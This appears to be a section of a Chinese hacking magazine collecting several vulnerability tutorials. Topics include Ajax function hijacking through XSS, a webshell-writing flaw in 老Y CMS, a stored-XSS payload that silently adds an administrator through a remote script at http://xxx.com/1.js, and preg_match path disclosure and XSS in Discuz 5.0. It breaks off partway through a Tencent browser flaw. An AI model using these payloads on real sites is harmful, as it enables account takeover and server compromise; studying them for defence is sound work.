


好了，关于mvmmall的漏洞就分析到这里，欢迎大家找我交流，我的email：xmystery#163.com。另外，如果哪位高手找到其它后台拿webshell的方法，还望分享：）。

> 【文中作者编写的exp工具 mvmmallexp.php已经收录在光盘中】

**编辑点评：** “千里之堤，毁于蚁穴”，这句话用在这里非常合适。看似风光全汤的系统，由于其中的一个SQL漏洞就可以导致被攻破。但是本文也有些后续的方向可以探索，比如文章中获取webshell的方式并不完美，需要一些特殊的mysql用户权限；还有能否进入后台取决于你是否足够幸运能在线破解其MD5密码。

## 浅谈 Ajax 框架劫持

图 Demon[S.C.T]

- 从本文你可以学到：
  1. Ajax 框架劫持范例
  2. Ajax 框架劫持的原理分析

## 原理分析

在 JavaScript 中，我最喜欢的一个特性就是它能够重定义已经声明的方法，这能够让我们衍生出非常非常多的遐想，同时也就引进了我们今天的主题——Ajax 框架劫持。

如何去理解重新定义已经声明的方法呢？很简单，其实我们说的通俗一点，也叫做函数覆盖。而且在 JavaScript 中，不会报错任何错误，从而程序开发人员很难去发现并防御。我们可以人为地利用 XSS 覆盖已有的函数，这样也就达到了我们要讲的主题——劫持。

劫持的危害其实很大，轻者可以做到阻断程序代码运行，导致 Web 应用程序崩溃；重者可以让攻击者任意操纵 JavaScript。我们下面给出个例子，是一个简单的劫持代码：

```html
<html>
<script>
function func()
{
    alert("oldfunction");
}

setTimeout("func = function() { alert('jacking'); };", 5000);
</script>
<input type="button" value="hello" onclick="func()" />
</html>
```

把上面的代码保存为 1.html，然后打开，显示结果如图 1。弹出了对话框，名为 oldfunction，然后我们 5 秒后再次点击，结果如图 2。同样弹出对话框，但是显示不同，这次名为 jacking，这也就代表我们劫持成功了。代码里的 setTimeout 设置为 5000 毫秒，也就是 5 秒后，我们的 func 函数被覆盖成新的函数，也就是重新定义的一个函数，能够弹出 jacking 的字符，这也就反映了存在这种问题。

那么如何去利用呢？我这里分别从利用持久性的 XSS 和非持久性的 XSS（反射型 XSS）进行讲解。

## 持久性 XSS

首先是持久性 XSS，我们也叫做存储型 XSS，这个危害甚大。如果程序开发人员不谨慎过滤，能够直接导致 Web 应用程序落入攻击者手中。我们谈的是 Ajax 框架劫持，攻击的对象自然也就是 Ajax 应用程序了。

假设有一个网站是使用 Ajax 应用程序搭建的，这里提一下，Ajax 应用程序中，源代码是直接保存在客户端当中的，因此我们能够直接查看，不像 PHP、ASP 之类的需要翻译成 HTML 提供给用户。JavaScript 因为是解释语言，所以把源代码毫不保留地给了用户，我们自然能够去查看。

假设我们在留言系统查看源代码时看到了一个函数 a 的定义，而在浏览留言页面的时候刚好要调用函数，这时我们就可以利用 XSS 进行外部调用，即 `<script src="http://www.xxx.com/hack.js"></script>`。而在 hack.js 中我们去重新定义我们的函数 a，并插入恶意代码，与此同时，发表留言后，函数 a 就被劫持了，执行的并不是原来的 a 函数，而是我们重新定义后的函数。内容大家可以自己发挥，代码都任意写了，操纵起来应该十分容易。

## 非持久性 XSS

第二个就是非持久性 XSS 了，这时我们假设网站 A 中有个变量 a 未过滤，能由 GET 方式提交到 URL 中，其 URL 构造为：`http://www.xxx.com/index.php?a=xss`，代码里面仍然是使用的 Ajax 程序，我们还是先查看源代码，看到需要调用的函数，我们暂时称为寻找目标吧。

寻找好适当的目标函数时，就可以开始劫持，操作方法和前面一样，也可以调用或直接定义一个函数，达到的效果是一样的，只是我们需要结合欺骗去利用此漏洞了。

在 JavaScript 库中，有个类我们提一下，名叫 Ajax 类，是一位大牛写的，包含在 prototype.js 中。其功能是解决了多次使用 XMLHttpRequest 进行异步调用，这时我们用 Ajax.Request 对象便能够达到劫持，此时并不需要利用 XSS，直接就能达到请求，我们称之人为构造冲突。

Ajax.Request 的成员函数我在这里说一下，但并不深入研究，大家可以去参考文献，常用的成员函数有 method、onsuccess、onfailure、parameters，作用分别是提交方式、成功后加载、失败后加载以及 HTTP 请求查询字符，具体利用大家自行参考。

劫持的利用我们就说这么多，下面我来说下如何防御。其实这种缺陷防御起来是有一定难度的，但是不代表不能防御，这需要非常有经验的程序员才能做到。我们可以使用命名空间的方法解决冲突的问题，学过 C++ 的朋友应该都知道，在 C++ 中能够使用 using namespace 来解决重名冲突的问题，在 JavaScript 中同样能够使用，只不过定义的方法不一样罢了。

好了，文章到此就结束了，如果大家有什么问题可以到《黑客手册》论坛 www.nohack.cn/bbs 联系我，我的 ID 是 Demon。

> 编辑点评：很有意思的一篇文章，提供了一个非常好的思路，值得每个人思考和深入研究。

## 老Y文章管理系统

### 写入一句话木马漏洞

图/众正海

- 从本文你可以学到：
  - 老Y文章管理系统漏洞分析

本人第一次写文章，有写的不好的地方还望高手们多多指点，这篇文章主要是揭露老Y文章管理系统的一个写入一句话木马漏洞。在网上搜索了一下，老Y文章管理系统用的人还是挺多的，本漏洞虽然不能直接获取到 WebShell，但给入侵测试者若苦于进入了后台却拿不到 WebShell 提供了另一种思路。

```asp
if Instr(Content, "姝汇")>0 or Instr(Content, "祹佸悕")>0 or instr(Content, "鍙峰爞")>0 _
or Instr(Content, "灏忛")>0 or Instr(Content, "钬")>0 or Instr(Content, "锟")>0 then
Response.Write "<script language=javascript>alert('请不要乱发信息,thanks!');javascript:history.back();</script>"
Response.End
end if
```
图1 漏洞源代码

先在本地搭建好老Y文章管理系统并开始测试，在该文章系统内有一个留言簿，估计大家都猜测到了，问题就出在这里了。先看一下源代码，如图1，这是对留言内容进行的一个检测，并没有对留言内容进行过滤。接着往下的代码就是把大名、主题、留言内容写入了数据库中去了。好了，废话少说，开始进行实战演习。

在本地搭建的环境中对各个网页进行访问，一切正常！然后找到留言模块功能，在留言簿上写上你的大名 admin（换了其他的大名可能会提示“不存在”），如图2。

点击“提交”，会提示你“成功留言，等待管理员审核”，然而实际上已经写到数据库里了。如果进入了管理后台，则可以通过数据库备份将当前数据库后缀名改为 asp，然后通过一句话木马客户端提交网页马就可以成功获取 WebShell。这里我已经把 Access 数据库后缀名改成了 asp，如图3。

提交成功后则可以成功获取 WebShell 啦，如图4。到这里就全部结束了，如果知道数据库的路径并以 asp 作为后缀名，则可以不用进入后台就能获取 WebShell。

> 编辑点评：本文很简单，是一个漏洞分析的过程。

## 跨站漏洞的利用范例

—— 图 cnryan

- 从本文可以学到：
  1. 跨站漏洞的利用
  2. XSS 攻击代码的构造

在互联网日益强大的今天，基于 Web 的攻击层出不穷，其中 XSS 跨站攻击一直深受宠爱。说到 XSS，就不能不提 Ajax，Ajax 全称为“Asynchronous JavaScript and XML”（异步 JavaScript 和 XML），是指一种创建交互式网页应用的网页开发技术，它能实现页面无刷新效果。简单的说，传统的 Web 应用模式，用户的体验是割裂的，过程大概为：点击→等待→看到新的页面→再点击→再等待……以此循环。而采用了 Ajax 技术之后，在用户不察觉的情况下，大部分操作交由服务器去完成了。

当然，技术就是一把双刃剑，跨站漏洞结合 Ajax 能够编写出 XSS WORM，乃 Web 的最大威胁。除此以外，利用 Ajax 技术还是可以做很多事情的，例如以下的例子。我在网上下载了一个叫“深度学习（asp）留言板”的程序，如图1。程序是比较简单的，方便我们测试，在“添加留言”处可测……

### 新洞练练看

测试跨站代码，只要在“留言内容”里填入“xss `<script>alert(/xss/)</script>`”并提交即可，如图2。

当管理员来到后台查看留言时就弹出框框了，如图3，这就是典型的入库型 XSS。

到了这里我们就可以利用 Ajax 技术，无声无息地做些邪恶的东西了。

其中最后一行是关键：`UserName=cnryan&password1=cnryan&password2=cnryan&Purview=%B9%DC%C0%ED%D4%B1&Submit=%CC%E1%BD%BB`。UserName 后跟的是要添加的管理员名字，password1 是密码，password2 是确认密码，`/asp/admin/AdminUser/adminUser_Add.asp` 是要请求的地址。

当管理员查看留言时，就会发生跨站攻击，此时可以用作 JavaScript 劫持，执行我们精心构造的代码。以下代码的功能是利用 Ajax 模拟提交数据，以实现添加管理员的操作，此操作是悄悄执行的。

Ajax 代码：
```javascript
var request = false;
if (window.XMLHttpRequest) {
  request = new XMLHttpRequest();
  if (request.overrideMimeType) {
    request.overrideMimeType('text/xml');
  }
} else if (window.ActiveXObject) {
  var versions = ['Microsoft.XMLHTTP', 'MSXML.XMLHTTP', 'Microsoft.XMLHTTP', 'Msxml2.XMLHTTP.7.0', 'Msxml2.XMLHTTP.6.0', 'Msxml2.XMLHTTP.5.0', 'Msxml2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];
  for (var i = 0; i < versions.length; i++) {
    try {
      request = new ActiveXObject(versions[i]);
    } catch (e) {}
  }
}
xmlHttp=request; // 定义 xmlhttprequest 对象
_add(); // 执行添加管理员函数
function _add() {
  var url='/admin/AdminUser/adminUser_Add.asp';
  // 此处省略具体的发送请求代码
}
```

因为后台功能简单，只有修改管理员和添加管理员的功能，我们就来实现“添加管理员”吧。

先以管理员身份登录后台，然后用 WSockExpert 抓取添加管理员的信息。在页面上“添加用户”，填入基本信息，如图4。

在提交前要先抓包，用 WSockExpert 抓到的数据包如下，其抓包过程如图5。

```http
POST /asp/admin/AdminUser/adminUser_Add.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, application/x-silverlight, */*
Referer: http://127.0.0.1/asp/admin/AdminUser/adminUser_Add.asp
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)
Host: 127.0.0.1
Content-Length: 96
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: cod=1.40; csd=41; ...

UserName=cnryan&password1=cnryan&password2=cnryan&Purview=%B9%DC%C0%ED%D4%B1&Submit=%CC%E1%BD%BB
```

相应的我做了些标记，因为留言内容有字数限制，我们可以加载远程的 JS，把利用代码保存为 1.js，然后在“留言内容”处随便写些内容，如图6。

```html
<script>s=document.createElement("script");s.src="http://xxx.com/1.js";document.body.appendChild(s);</script>
```

该代码实现插入一个 `<script>` 标签，再创建一个 src 调用远程的 JS。

大致就是这个流程，接着我们再次以管理员身份登录后台，按“查看留言”，再到“网站用户管理”处，可以看到已经有个 cnryan 账号了，如图7。

一直流行的 XSS WORM 也是建立在这样的基础上，都是借助 XMLHttpRequest 这个对象，只是更复杂点。欢迎大家和我交流，邮箱 cnryan2008@gmail.com。

> **编辑点评：**XSS 余热不减，随着 Web2.0 网站的走红，基于 Ajax 的 XSS 的攻击方法越来越多，本文以一个留言本，通过 XSS 添加管理员的例子，分析了其邪恶代码的构造方法。这是个很不错的思路，但是在你进入 XSS 漏洞利用前，是需要一些 JS 基础的。

## 由 preg_match() 函数到跨站·泄露路径

文 | Tommie

- 从本文你可以学到：
  1. preg_match() 函数漏洞分析
  2. 漏洞的利用解析

### 前言

前些日子，80vul 发出关于 preg_match() 函数的一些问题，我翻查了关于这个函数的漏洞资料，发现在历史上还有一个远程执行漏洞，可谓漏洞百出啊！不过这不是我们的重点。

### 过程

preg_match() 函数是 PHP 里的内置函数，其底层代码由 C 语言编写，若读者想知道这个漏洞，可以自行参考相关资料，这里我们直接来看 80vul 的 POC 中关于这个漏洞的一些描述，我们要简单了解以下几个知识点：

- 1. **preg_match() 函数**
  ```php
  int preg_match ( string pattern, string subject [, array matches [, int flags]])
  ```
  在 subject 字符串中搜索与 pattern 给出的正则表达式相匹配的内容。如果提供了 matches，则其会被搜索的结果所填充。$matches[0] 将包含与整个模式匹配的文本，$matches[1] 将包含与第一个捕获的括号中的子模式所匹配的文本，以此类推。

- 2. **var_dump 函数**
  ```php
  void var_dump ( mixed expression [, mixed expression [, ...]])
  ```
  此函数显示关于一个或多个表达式的结构信息，包括表达式的类型与值。数组将递归展开值，通过缩进显示其结构。

- 3. **数组与变量**
  这个我个人认为是 PHP 一个小小的缺陷，一般按照我们 PHP 程序员的思维，当你遇到名为 “ipmatches” 的变量时，你会想到什么？没错了，它就是一个变量，用于存储一个值或字符串等等的数据。若我告诉你它也可以表示一个数组呢？你这时可能大吃一惊，但确实可以在 PHP 中这样表达，这个是很细微的东西。

我们现在来看 80vul 的 POC：

```php
<?php
$ip[]='1';
preg_match('/(\d\.){7,15}/', $ip, $ipmatches);
var_dump($ipmatches);
?>
```

再结合漏洞描述：如果传入 preg_match 的第一个或者第二个参数是一个数组或者资源类型的话，将会报错并返回 false，这将导致如果使用第三个参数的话，该变量将不会被赋值。

在上面的代码中，先赋值 $ip[] 数组变量，再就是 preg_match 正则表达式匹配。由于 “$ip” 可以表示一个数组，而且出现在第二个参数中，这时就令 preg_match 函数出错，从而 “$ipmatches” 没有被赋值，即没有被初始化。但是这里有一个问题，若 preg_match 函数出错，那么 IIS 或 Apache 随之也会报错，导致路径泄露。

我们运行上面的代码，如图 1 所示，可以看到路径了。

在现实的程序中，他们也会在函数调用前加上 “@” 容错标记，那么我们在 “@preg_match('/(\d\.){7,15}/', $ip, $ipmatches);” 前加一个 “@”，再运行，结果如图 2 所示。

如我们所料，是 var_dump 函数返回的 NULL，即 $ipmatches 未被赋值。我再把 POC 改一改，代码如下：

```php
<?php
$ip='1';
preg_match('/(\d\.){1,15}/', $ip, $ipmatches);
// ... 后续逻辑
?>
```

运行上面的代码，结果如图3所示。

由于能被正则匹配，故 `$ipmatches` 被赋值了，`var_dump` 函数也校验到 `$ipmatches` 的数据，这时很容易令我们联想到跨站。



我再把 POC 改一改，这回的代码如下：

```php
<?php
extract($_GET);
@preg_match("/^\d\.\d{7,15}/", $ip, $ipmatches);
echo "$ipmatches";
echo "<script>alert('第二次')</script>";
// preg_match.php?ip[0]=0&ipmatches=<script>alert('第一次')</script>
?>
```



以上代码的执行格式在注释中，执行后结果如图4、图5所示。



## 实例

这个漏洞涉及到 Discuz 5.0 及以下的版本，有点老……我从网上下载了一份 5.0.0 版，在文件 `include/common.inc.php` 里，代码如下：

```php
$magic_quotes_gpc = get_magic_quotes_gpc();
// 关的对象化

@extract(daddslashes($_COOKIE));
@extract(daddslashes($_POST));
@extract(daddslashes($_GET));
// 覆盖变量，这里我们可以覆盖 $_SERVER。

if(!$magic_quotes_gpc) {
    $_FILES = daddslashes($_FILES);
}
```

```php
if(getenv('HTTP_CLIENT_IP') && strcasecmp(getenv('HTTP_CLIENT_IP'), 'unknown')) {
    $onlineip = getenv('HTTP_CLIENT_IP');
} elseif(getenv('HTTP_X_FORWARDED_FOR') && strcasecmp(getenv('HTTP_X_FORWARDED_FOR'), 'unknown')) {
    $onlineip = getenv('HTTP_X_FORWARDED_FOR');
} elseif(getenv('REMOTE_ADDR') && strcasecmp(getenv('REMOTE_ADDR'), 'unknown')) {
    $onlineip = getenv('REMOTE_ADDR');
} elseif(isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], 'unknown')) {
    $onlineip = $_SERVER['REMOTE_ADDR'];
}
// 提取ip，尝试通过 getenv() 获取，失败就通过 $_SERVER[] 来获取。

preg_match("/[^\d.]{7,15}/", $onlineip, $onlineipmatches);
// 注意这个 preg_match() 的第3个参数 $onlineipmatches 并没有初始化，同时程序员没有判断 preg_match 函数执行正确与否。

$onlineip = $onlineipmatches[0] ? $onlineipmatches[0] : 'unknown';
unset($onlineipmatches);
// 判断是否存在 $onlineip，并撤销 $onlineipmatches。
```

gpc 有限制，注入不用想了。我在这里覆盖了很多变量，这样就能有机可乘地试试跨站。

经过一番斟酌，我们只要让 `getenv` 取 IP 失败（因为 `HTTP_CLIENT_IP` 是我们无法控制的，所以要转到我们可以控制的变量），就可以赋值 `$_SERVER['REMOTE_ADDR']`，从而控制 `$onlineip`，即 `preg_match` 的第二个参数。这里没有容错标记，只能绕过一下路径而已。

那么如何让 getenv 取 IP 失败呢？网上说在 IIS 环境下 `getenv()` 是失效的，我试了一下。通过 “Powered by Discuz! 5.0.0” 关键字找到一些 5.0.0 以下的 Discuz，直接在 URL 提交：`index.php?_SERVER[REMOTE_ADDR][]=1`，确实可以，如图6所示。



本文是对 `preg_match()` 函数的一些漏洞测试，希望对大家有用。

**编辑点评：**

`preg_match()` 这个函数以前出过问题，这次的问题出在 php 自身的一些设计模式上，可以作为知识的积累，等到需要的时候会派上用场的。

## 腾讯 Tencent Traveler 浏览器跨域修改配置文件漏洞

图 受兔/孟岩

从本文你可以学到：

- 1. 腾讯 Tencent Traveler 浏览器漏洞分析
- 2. 漏洞演示

在 4 月份的时候，我曾向腾讯的安全团队发送过一份漏洞安全汇报邮件，报告中主要谈及了我对腾讯 Tencent Traveler 浏览器发现的多个重大安全隐患的具体细节。在 5 月 15 日，腾讯 Tencent Traveler 浏览器开发团队更新了腾讯 Tencent Traveler 浏览器，令人欣慰的是最新版本的 Tencent Traveler 浏览器修补了其中几个安全隐患，但是还是有个别漏洞没有及时修补，这里给大家带来的就是其中一个安全漏洞。

对于浏览器来说，域安全早已经是人人皆知的名词。简单地说，浏览器对于来自不同域访问的信息应该有一个判断，不能够轻易允许一个域读取的信息修改访问另外一个域范围内的信息。假设我们正在看一个来自互联网的网页，可是这个网页竟然在不知道的情况下将我们电脑上某个文件的信息给修改了，这是绝对不允许的事情。当然，这个例子举得并不恰当，但是具体意思相信大家都比我要清楚的多。

最新的腾讯 Tencent Traveler 浏览器在修改配置信息上采用了一种利用 res 协议的方式，这样做的好处是使得用户在修改浏览器配置信息时如同访问一个网页那样简单易操作，如图1所示。

